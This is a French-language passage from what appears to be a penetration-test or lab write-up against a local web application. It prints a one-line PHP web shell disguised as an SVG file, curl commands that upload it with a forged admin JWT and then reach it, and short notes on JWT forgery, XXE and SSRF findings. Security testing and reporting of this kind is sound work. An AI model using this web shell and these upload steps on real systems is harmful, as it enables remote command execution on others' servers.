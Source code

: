 Nous avons commencé par créé un fichier nommé « shell.php.svg » contenant du code PHP malveillant : 
1. <?php system($_GET["cmd"]); ?>

Nous avons ensuite uploadé le fichier en utilisant la commande suivante : 
1. curl -k -X PATCH "https://localhost:3000/Patch" \
2.   -H "X-Forwarded-For: 10.10.10.256" \
3.   -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJJZCI6ImFkbWluIiwiSXNBZG1pbiI6IlRydWUiLCJuYmYiOjE3NDY5MDUzNjAsImV4cCI6MTc3ODQ0MTM2MCwiaWF0IjoxNzQ2OTA1MzYwfQ.k0AB5Olhf4LRIg4t8BELqW8gug1QA_A7LOYeowfk-eg' \
4.   -F "file=@shell.php.svg;type=image/svg+xml"

La requête a réussi et le serveur a répondu avec : 
![image](https://github.com/user-attachments/assets/35ff3661-cb6a-45a9-98d8-10308d2ff628)

Nous avons ensuite vérifié que le fichier était accessible et que son contenu était intact :
1. curl -k "https://localhost:3000/?lang=shell.php.svg" -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJJZCI6InVzZXIiLCJJc0FkbWluIjoiRmFsc2UiLCJuYmYiOjE3MjUyNjY1MDksImV4cCI6MTc1NjgwMjUwOSwiaWF0IjoxNzI1MjY2NTA5fQ.D_RUjJiR4eptm1DJqpPEOYMEbP6fFWgRX7ylZIFHtSE'

La réponse : 
![image](https://github.com/user-attachments/assets/795021f3-4589-467a-b728-0328852190f3)

---

### H. JWT forgé (CWE-1270 / CWE-798)

Token avec alg `none` accepté ou signé avec secret trouvé.

![image](https://github.com/user-attachments/assets/9cbc5616-2fbb-461f-81b1-5dd23229a9b4)
![image](https://github.com/user-attachments/assets/18dce359-2eb1-460d-b00a-306549a46218)

![image](https://github.com/user-attachments/assets/ab9dceee-2531-42f5-9b36-29b23bba7ab6)

---

### I. XXE (CWE-611)

Fichier XML avec entité externe lisant `appsettings.json`.

![image](https://github.com/user-attachments/assets/86c7b1c5-ede6-47ed-a2e5-a37cb9b1d351)
![image](https://github.com/user-attachments/assets/e57e559d-5c23-4896-949b-fce58b5abd82)
![image](https://github.com/user-attachments/assets/b02bbe43-201a-4d52-ad52-c78bb331326a)

---

### J. SSRF (CWE-918)

Tentative de requête vers `localhost:8080`. Erreur confirmant l'accès côté serveur.

![image](https://github.com/user-attachments/assets/91c36b8c-3def-45ae-b73e-ae59aa31b82f)
